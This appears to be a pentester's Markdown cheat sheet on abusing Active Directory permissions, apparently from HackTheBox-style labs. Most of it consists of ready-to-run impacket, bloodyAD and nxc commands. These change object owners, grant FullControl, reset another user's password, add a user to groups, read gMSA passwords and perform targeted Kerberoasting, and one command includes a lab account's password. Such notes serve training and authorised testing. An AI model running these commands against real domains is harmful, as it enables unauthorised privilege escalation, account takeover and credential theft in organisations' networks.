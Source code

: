 # WriteOwner

This gives you the ability to modify the owner of an object.

To modify the ownership of an object:
```bash
python /usr/share/doc/python3-impacket/examples/owneredit.py -action write -new-owner 'ownedUser' -target 'targetUser' 'domain.htb/ownedUser':'password'
```

To abuse the ownership of an object, you can grant yourself the GenericALL permission.

# GenericWrite
This grants you the ability to write to any non-protected attribute on the target object, including "members" for a group, and "serviceprincipalnames" for a user.

# GenericAll

This gives you full control over an object. You can manipulate the target as you wish. 

```bash
python /usr/share/doc/python3-impacket/examples/dacledit.py -action 'write' -rights 'FullControl' -principal 'userToGrantPrivsTo' -target 'targetUser' 'domain.htb/user':'password'
```

## User 
If you have GenericAll on a user, you can do the following:
1) Perform Shadow Credentials to modify attributes and requests certificates for authentication.
2) Kerberoasting
3) ForceChangePassword

## OU
If you have GenericAll on an OU, you can add a new ACE on the OU that will inherit down to the objects under that OU. 

### Generic Descendent Object Takeover

```bash
python /usr/share/doc/python3-impacket/examples/dacledit.py -action 'write' -rights 'FullControl' -inheritance -principal 'userToGrantPrivsTo' -target-dn 'OU=NAMEOFOU,DC=NAMEOFDC,DC=HTB' 'domain.htb/user':'password'
```

# ForceChangePassword

Allows you to change the user's password without knowing that user's current password.

```bash 
bloodyAD --host "10.1.1.1" -d "domain.htb" -u 'ownedUser' -p "password" set password "targetUser" "password"
```

# AddSelf

This gives the ability to add itself to a group which will inherit the same privileges as that group.

```bash
bloodyAD --host "10.1.1.1" -d "domain.htb" -u "owneduser" -p "password" add groupMember "group" "userToAdd"
```

# ReadGMSA

Allows you to retrieve the password for a "Group Managed Service Account".

```bash 
nxc ldap domain.local -u "user" -p "password" --gmsa
```


# TargetedKerberoasting

## Add servicePrincipalName
```bash
bloodyAD -d "rustykey.htb" --host "dc.rustykey.htb" -u "IT-Computer3$" -p 'Rusty88!' set object "dd.ali" servicePrincipalName -v 'http/anything'
```

## Kerberoast

```bash
nxc ldap -k "rustykey.htb" -d "rustykey.htb" -u "IT-Computer3$" -p 'Rusty88!' --kerberoasting kerberoastables.txt
```



# Add Shadow Credential




![[Pasted image 20250630122617.png]]
